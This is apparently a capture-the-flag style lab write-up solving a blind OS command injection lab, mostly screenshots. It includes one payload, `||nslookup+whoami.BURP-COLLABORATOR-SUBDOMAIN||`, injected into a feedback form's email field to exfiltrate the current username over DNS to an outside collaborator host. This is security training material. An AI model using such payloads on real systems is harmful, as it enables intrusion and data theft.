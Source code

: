 # Blind OS command injection with out-of-band data exfiltration

## Lab Description

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/29db4176-216d-474e-8785-858b5232ce75)

## Solution

The vulnerability lies in the feedback form of the website so first we get a domain name from burp collaborator by clicking on copy to clipboard.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/8ba44867-1a3b-4a7c-8bda-15ea37a4de65)

Now we add the collaborator payload to the email field by modifying it to get the current user and the payload becomes `email=||nslookup+whoami.BURP-COLLABORATOR-SUBDOMAIN||`. When send we get repsonse `200 OK`.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/36e45346-d909-47f1-ad80-fe93f4104101)

In the collaborator menu we can see the user(highlighted).

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/a38f1e17-08b3-4d52-b30e-7c473f5cc437)

Go to the website and click on submit solution and add the username.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/b7befb69-5774-417d-a001-f2bae0a5cc7f)

The lab is successfully solved.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/b369fa82-70d5-4cfd-b382-bc830bc14415)
